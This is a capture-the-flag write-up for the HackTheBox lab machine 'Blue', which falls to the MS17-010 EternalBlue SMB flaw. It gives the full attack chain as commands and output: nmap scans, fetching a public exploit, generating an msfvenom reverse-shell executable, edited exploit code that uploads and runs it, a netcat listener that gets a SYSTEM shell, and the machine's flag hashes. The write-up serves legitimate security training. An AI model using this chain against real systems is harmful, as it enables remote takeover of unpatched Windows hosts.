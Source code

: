```yaml
---
layout: post
title: HackTheBox Blue
date: 2017-07-28
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly. ([Source](https://www.hackthebox.com/machines/blue))

# Enumeration

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.0037s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/9%OT=135%CT=1%CU=38266%PV=Y%DS=2%DC=T%G=Y%TM=620346E
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=
OS:7)OPS(O1=M505NW8ST11%O2=M505NW8ST11%O3=M505NW8NNT11%O4=M505NW8ST11%O5=M5
OS:05NW8ST11%O6=M505ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M505NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-02-09T04:45:21
|_  start_date: 2022-02-09T04:43:42
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-02-09T04:45:22+00:00
|_clock-skew: mean: 3s, deviation: 2s, median: 2s

TRACEROUTE (using port 993/tcp)
HOP RTT     ADDRESS
1   3.98 ms 10.10.14.1
2   4.14 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.99 seconds
```

It seems like there is no website for this challenge. Let’s run `nmap` with `--scripts=vuln` to check for any low hanging fruits.

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap --script=vuln 10.10.10.40
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.0039s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

This machine is vulnerable to the infamous `MS17-010 EternalBlue`.

# Exploitation

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# searchsploit --id ms17-010
...
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)    | 42031
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Exe | 42315
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS | 42030
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution  | 41987
...

┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# searchsploit -m 42315
```

Reading the source code shows that we need to download `mysmb.py` from this [link](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py).

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
                                                           
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# mv 42315.py mysmb.py     
```

Looking further through the source code, it shows that we need a username and password. We can use `enum4linux` to try and enumerate some information from the Windows machine.

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# enum4linux -a 10.10.10.40

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.10.40
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

... [Other information that is not needed]
```

`guest` account is enabled. We can add the `guest` account to the exploit code.

```bash
USERNAME = 'guest'
PASSWORD = ''
```

Now, we need to create a reverse shell payload using `msfvenom`.

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f exe > exploit.exe
```

Adjust the following part of the exploit code of `42315.py`.

```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()

	print('creating file c:\\exploit.exe on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/exploit.exe')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)

	# Send reverse shell payload
	smb_send_file(smbConn, '/home/shiro/HackTheBox/Blue/exploit.exe', 'C', '/exploit.exe')
	# Execute the reverse shell payload
	service_exec(conn, r'cmd /c c:\exploit.exe')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```

Execute the exploit and get the reverse shell!

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blue]
└─# python 42315.py 10.10.10.40                                                       
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
...
Opening SVCManager on 10.10.10.40.....
Creating service cFsa.....
Starting service cFsa.....
The NETBIOS connection with the remote host timed out.
Removing service cFsa.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done

┌──(shiro㉿shiro)-[~]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.40] 49161
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Users>cd "C:\Users\haris\Desktop"
C:\Users\haris\Desktop>type user.txt
4c546aea7dbee75cbd71de245c8deea9

C:\Users\haris\Desktop>cd "C:\Users\Administrator\Desktop"
C:\Users\Administrator\Desktop>type root.txt
ff548eb71e920ff6c08843ce9df4e717
```


